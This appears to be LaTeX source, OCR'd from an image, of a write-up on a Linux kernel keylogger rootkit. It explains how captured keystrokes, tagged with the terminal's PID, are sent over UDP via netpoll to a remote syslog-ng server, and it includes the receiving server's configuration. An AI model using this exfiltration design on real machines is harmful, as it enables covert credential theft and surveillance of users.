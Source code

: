 \documentclass[10pt, letterpaper]{scrartcl}
\begin{document}
\begin{verbatim}
  struct netpoll {
          struct net_device *dev;
          char dev_name[IFNAMSIZ]; // device name has to be ethernet
          const char *name; 
  
          union inet_addr local_ip, remote_ip;	// Ip addresses in network byte order
          bool ipv6; 
          u16 local_port, remote_port; // some unused local port(eg. 6666) and 
				      //remote_port = 514 (for syslog-ng server)
          u8 remote_mac[ETH_ALEN]; // set to 0xff
  
          struct work_struct cleanup_work;
  };
\end{verbatim}

Once the structre is initialized, we call,
\begin{verbatim}
int netpoll_setup(struct netpoll *);
\end{verbatim} 

This function sets up everything needed for sending the keys. Now we need take the input keys, 
add the pid information of the terminal and send the keys using \texttt{netpoll\_send\_UDP} which looks like,

\begin{verbatim}
netpoll_send_UDP(np, sned_buf, send_len); 
\end{verbatim}

\texttt{Getting the PID information}: This was quite simple, as the \texttt{current} macro was quite handy in this situation.
\texttt{current} macro points to the \texttt{task\_struct} of the currently executing process. 
\texttt{task\_struct} has the \texttt{pid} member. 


\texttt{Setting up syslog-ng server}: One must set the \texttt{syslog-ng} server in the destination. 
The following steps are for setting the syslog-ng server on ubuntu. 
\begin{itemize}
\item Install the syslog-ng server: sudo apt-get install syslog-ng

\item Add these entries in \texttt{syslog-ng.conf} file (you can find the file under /etc/syslog-ng/ folder)
\begin{verbatim}
source syslog_udp {
udp(port(514));
};
destination df_wrt0 {
file("/var/log/rootkit_log.log");
};
log {
source(syslog_udp);
destination(df_wrt0);
}
filter f_wrt0 {
host("Ip from you are getting the data");
};
log {
source(syslog_udp);
filter(f_wrt0);
destination(df_wrt0);
}
\end{verbatim}

\end{itemize}
\end{document}
